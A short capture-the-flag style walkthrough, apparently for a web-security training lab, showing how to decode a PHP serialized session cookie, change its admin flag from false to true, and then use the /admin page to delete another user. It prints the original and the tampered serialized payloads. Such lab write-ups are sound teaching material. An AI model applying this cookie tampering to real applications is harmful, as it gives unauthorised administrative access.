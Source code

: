 # Modifying serialized objects

Make request to
```http
GET /my-account
```
</br>

Edit the session cookie by decoding it in the inspector tab
`session=Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czo1OiJhZG1pbiI7YjowO30%3d`

</br>

The decoded session cookie:
```php
O:4:"User":2:{s:8:"username";s:6:"wiener";s:5:"admin";b:0;}
```
</br>

Take note: the cookie is in fact a serialized PHP object. The `admin` attribute contains `b:0`, indicating the boolean value `false.` 
Change value of `admin` attribute to `b:1`, and click "apply changes"

</br>

The edited session cookie:
```php
O:4:"User":2:{s:8:"username";s:6:"wiener";s:5:"admin";b:1;}
```
</br>

Then make request to `GET /admin`
And you can delete carlos from there.
